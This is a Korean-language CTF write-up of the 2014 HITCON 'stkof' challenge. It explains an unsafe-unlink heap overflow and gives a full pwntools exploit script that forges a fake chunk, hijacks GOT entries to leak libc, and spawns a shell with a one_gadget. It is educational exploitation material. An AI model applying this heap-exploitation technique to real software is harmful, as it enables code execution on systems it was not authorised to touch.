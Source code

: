 ```yaml
---
title: "2014 HITCON CTF stkof"
date: 2020-4-18
ctf: HITCON CTF
layout: post
---
```


* unsafe unlink
* heap overflow
* bss manage

1번 메뉴에서 원하는 사이즈만큼 힙에 할당하고 전역변수에 청크주소를 저장한다. 2번 메뉴에서는 원하는 사이즈만큼 청크내용을 수정할 수 있다. 3번 메뉴는 청크를 프리해주고 0으로 초기화해준다. 4번 메뉴는 별거 없다.

fake chunk를 구성해줘서 fd는 target - 24 bk는 target - 16에 맞춰주고 다음 청크의 prev_size와 size를 맞춰주고 size는 PREV_INUSE bit를 없애준다. 그리고 edit을 이용해서 strlen@got -> puts@plt(puts@got) 로 맞춰서 leak해주고 one_gadget으로 got를 덮어주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./stkof')
p = process('./stkof')
libc = e.libc
s = lambda x : p.send(x)
sl = lambda x : p.sendline(x)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
cnt = 0x0000000000602100
chunk = 0x0000000000602150

def add(size):
	sl('1')
	sl(str(size))
	p.recvuntil('OK\n')

def edit(idx,size,content):
	sl('2')
	sl(str(idx))
	sl(str(size))
	s(content)

def free(idx):
	sl('3')
	sl(str(idx))

def leak(idx):
	sl('4')
	sl(str(idx))

add(0x80)
add(0x80)
add(0x80)

fakechunk1 = p64(0) # prev_size 
fakechunk1 += p64(0) # size
fakechunk1 += p64(chunk - 24) # fd
fakechunk1 += p64(chunk - 16) # bk
fakechunk1 += p64(0) * 12
fakechunk1 += p64(0x80) # prev_size
fakechunk1 += p64(0x90) # size
edit(2,len(fakechunk1),fakechunk1)

free(3) # unlink

payload = 'A'*0x18
payload += p64(e.got['strlen']) # strlen -> puts
payload += p64(e.got['puts'])
edit(2,len(payload),payload)
edit(2,8,p64(e.plt['puts']))
# strlen@got -> puts@plt(puts@got)

leak(3)
puts = u64(p.recvuntil('\x7f')[-6:]+'\x00\x00')
log.info(hex(puts))
libc_base = puts - libc.symbols['puts']
log.info(hex(libc_base))
oneshot = libc_base + 0x45216
pause()
edit(3,8,p64(oneshot))
# puts@got -> one_gadget


p.interactive()
```

